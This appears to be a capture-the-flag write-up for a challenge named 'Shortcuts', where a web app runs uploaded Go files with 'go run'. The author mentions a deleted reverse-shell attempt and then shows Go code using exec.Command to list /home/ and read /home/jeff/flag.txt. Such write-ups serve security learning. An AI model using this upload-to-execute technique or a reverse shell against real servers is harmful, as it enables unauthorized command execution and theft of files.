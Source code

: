 ``` 
A web app for those who are too lazy to SSH in.

http://web1.cybercastors.com:14437

Author: icinta

```
Navigating to the web site and Here we can upload .go files so as the title of the chall indicates Shortcuts ! i figured out that when u upload a file  the
server will try to execute this command ```go run your_file.go```  So i tried to upload my go file to see if i can run some commands to get the flag location and read it ! 
well first i uploaded a reverse shell but the admin directly deleted it and updated the firewall :laughing: :laughing: so i uploaded this code now as k.go and k 
``` 
package main

import (
    "fmt"
    "os/exec"
    )

func main() {

    fmt.Println("Program Output")
    out, err := exec.Command("ls", "/home/").Output()
    if err != nil {
        fmt.Printf("%s", err)
    }
    output := string(out[:])
    fmt.Println(output)
    fmt.Println("Program Complete")
}    
```
it works ! perfect ! now discovering the we have a Jeff Directory in /home/ , i entred there and found the flag.txt and i read it , i just changed 
```
out, err := exec.Command("cat", "/home/jeff/flag.txt").Output()
```
And yes ! we got Our  flag  :innocent:	
